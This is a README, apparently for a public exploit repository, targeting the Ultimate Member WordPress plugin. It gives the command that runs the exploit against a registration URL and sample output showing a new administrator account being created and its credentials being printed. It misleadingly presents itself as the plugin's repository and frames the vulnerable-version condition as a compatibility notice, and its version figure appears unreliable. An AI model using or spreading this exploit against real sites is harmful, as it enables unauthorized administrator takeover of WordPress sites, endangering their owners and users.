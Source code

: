 Ultimate Member - Overview

Welcome to the Ultimate Member GitHub repository! Ultimate Member is a powerful and flexible user profile and membership plugin for WordPress but Sometimes Plugins has some vulnerability and lead to website compromisation

Important Notice: Please note that the version of Ultimate Member should be less than 5.6.7 to ensure compatibility and optimal functioning. Using versions beyond this might lead to unexpected issues and conflicts.

Usage

 python3 exploit.py <url>
    Example:
        python3 exploit.py https://example.com/register
                 --- Ultimate Member Exploit ---
                        (Get Admin Access)
                                 by Rajneesh K Arya
        
        id : 9
        Username : admin2
        Password : Password123
         value : cb2147ddb3
        Attacking https://example.com/register/ : done

        Congratulations! We gained access to admin panel:
        Credentials...
        Username: admin2
        Password: Password123
open to contribute


  

